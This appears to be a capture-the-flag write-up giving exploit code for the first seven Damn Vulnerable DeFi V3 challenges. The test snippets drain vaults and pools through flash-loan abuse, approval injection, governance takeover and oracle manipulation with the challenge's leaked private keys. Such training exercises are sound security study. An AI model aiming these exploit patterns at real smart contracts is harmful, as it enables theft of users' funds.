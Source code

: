 
#Challenge #1:        

Un-Stoppable

````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Challenge #2:

Naive Receiver

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Challenge #3:

Truster

````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
````

#Challenge #4: 

[Challenge #4 - Side Entrance]

In the Flash Loan call deposit function and trick the contract flash loan check

```
this.attackerContract = await (await ethers.getContractFactory('AttackSideEntrance', player)).deploy(
    pool.address,
    player.address
);
await this.attackerContract.attack();
```

#Challenge #5

The Rewarder

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    // Advance time 5 days so that depositors can get rewards
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
    this.attackerContract = await ( await ethers.getContractFactory("AttackTheRewarder", player)).deploy(
        flashLoanPool.address, rewarderPool.address, liquidityToken.address, rewardToken.address
    );
    await this.attackerContract.attack();
});
````

#Challenge #6

Selfie [ Damn Vulnerable DeFi V3 Challenge 6 Solution: Selfie Walkthrough Guide ]

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    
    this.attackContract = await (await ethers.getContractFactory("AttackSelfie", player)).deploy(
    pool.address, governance.address, token.address
    );
    await this.attackContract.attack();
    const ACTION_DELAY = 3 * 24 * 60 * 60 + 1;
    await time.increase(ACTION_DELAY);
    await governance.connect(player).executeAction(1);
});
````

#Challenge #7

Damn Vulnerable DeFi V3 Challenge 7 Solution - Compromised Walkthrough

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    // HEX --> ASCII --> Base64 Decode
    const PKEY1 = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";
    const PKEY2 = "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48";
    const signer1 = new ethers.Wallet(PKEY1, ethers.provider);
    const signer2 = new ethers.Wallet(PKEY2, ethers.provider);

    // Set Price - 1 WEI, and buy 1 NFT
    await oracle.connect(signer1).postPrice("DVNFT", 1);
    await oracle.connect(signer2).postPrice("DVNFT", 1);
    await exchange.connect(player).buyOne({value: 1});

    // Set Price - 999 ETH + 1 WEI, and sell 1 NFT
    await oracle.connect(signer1).postPrice("DVNFT", INITIAL_NFT_PRICE + BigInt(1));
    await oracle.connect(signer2).postPrice("DVNFT", INITIAL_NFT_PRICE + BigInt(1));
    await nftToken.connect(player).approve(exchange.address, 0);
    await exchange.connect(player).sellOne(0);

    // Set Original Price
    await oracle.connect(signer1).postPrice("DVNFT", INITIAL_NFT_PRICE);
    await oracle.connect(signer2).postPrice("DVNFT", INITIAL_NFT_PRICE);
});
````
